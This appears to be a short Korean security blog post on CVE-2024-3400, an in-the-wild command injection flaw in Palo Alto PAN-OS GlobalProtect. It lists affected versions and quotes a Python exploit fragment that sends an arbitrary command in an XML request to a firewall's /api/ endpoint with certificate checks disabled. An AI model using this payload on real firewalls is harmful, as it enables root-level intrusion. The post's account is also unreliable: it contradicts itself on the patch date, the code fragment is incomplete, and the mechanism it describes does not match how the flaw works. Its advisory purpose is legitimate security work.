 ```yaml
---
title: "[하루한줄] ITW CVE-2024-3400: Palo Alto Networks PAN-OS의 GlobalProtect 기능에서 발생한 Command Injection 취약점"
author: j0ker
tags: [CVE-2024-3400, Palo Alto Networks, PAN-OS, command injection, ITW, GlobalProtect,  j0ker]
categories: [1day1line]
date: 2024-04-14 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [Exploit Code from Github](https://github.com/DrewskyDev/CVE-2024-3400/tree/main)
- [Zero-Day Exploitation of Unauthenticated Remote Code Execution Vulnerability in GlobalProtect (CVE-2024-3400)](https://www.volexity.com/blog/2024/04/12/zero-day-exploitation-of-unauthenticated-remote-code-execution-vulnerability-in-globalprotect-cve-2024-3400/)

## Target

- < PAN-OS 11.1.2-h3
- < PAN-OS 11.0.4-h1
- < PAN-OS 10.2.9-h1

## Explain

CVE-2024-3400은 Palo Alto Networks 사에서 판매하는 장비들에 탑재되어 있는 운영체제인 PAN-OS에서 발견된 Command Injection 취약점입니다. 해당 취약점은 현재 UTA0218 그룹에서 방화벽 공격에 실제 사용하고 있는 취약점으로 Exploit할 경우 root 권한으로 명령어를 실행할 수 있습니다.

```python
def exploit_firewall(target_ip, payload, root_ca=None):
    url = f"https://{target_ip}/api/"

    data = f"""<?xml version="1.0" encoding="UTF-8"?>
    <request>
        <op cmd="test" />
        <cmd code="ping">{payload}</cmd>
    </request>"""

    headers = {
        "User-Agent": "PAN-OS-Exploit",
        "Content-Type": "application/xml"
    }

    try:
        if root_ca:
            response = requests.post(url, headers=headers, data=data, timeout=5, verify=root_ca)
        else:
            response = requests.post(url, headers=headers, data=data, timeout=5, verify=False)
```

깃헙에 공개된 POC를 확인해 보면 단순하게 POST  요청의 데이터에 xml 포맷으로 원하는 명령어를 입력하면 명령어를 실행할 수 있습니다. PAN-OS에서는 해당 페이로드를 처리하는 과정에서 명령어에 대한 필터링을 하지 않아 취약점이 발생한 것으로 보이며 해당 명령어는 root 권한으로 실행됩니다.  

외부 네트워크에서 공격을 쉽게 수행할 수 있고, 공격 난이도가 낮으며 공격 성공 시 root 권한을 획득할 수 있는 등의 임팩트를 고려해 CVSS4.0 10을 받았습니다.

해당 취약점은 내일(2024년 4월 14일)에 패치가 공개될 예정입니다.

## Reference

- [Threat Brief: Operation MidnightEclipse, Post-Exploitation Activity Related to CVE-2024-3400](https://unit42.paloaltonetworks.com/cve-2024-3400/)
- [CVE-2024-3400 PAN-OS: OS Command Injection Vulnerability in GlobalProtect Gateway](https://security.paloaltonetworks.com/CVE-2024-3400)